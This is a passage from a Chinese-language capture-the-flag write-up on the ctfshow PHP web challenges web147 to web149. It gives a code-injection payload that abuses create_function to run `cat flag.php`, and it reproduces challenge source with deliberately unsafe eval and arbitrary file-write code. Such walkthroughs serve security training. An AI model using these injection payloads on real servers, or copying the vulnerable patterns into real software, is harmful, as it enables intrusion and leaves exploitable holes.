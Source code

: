 这样一来，我们想要执行的代码就会执行

paylaod:

```
get: show=echo 123;}system('cat flag.php');//
post: ctf=%5ccreate_function
```



## web148

```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

![](https://img.npfs06.top/20210307110230.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

脚本同web143

## web149

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

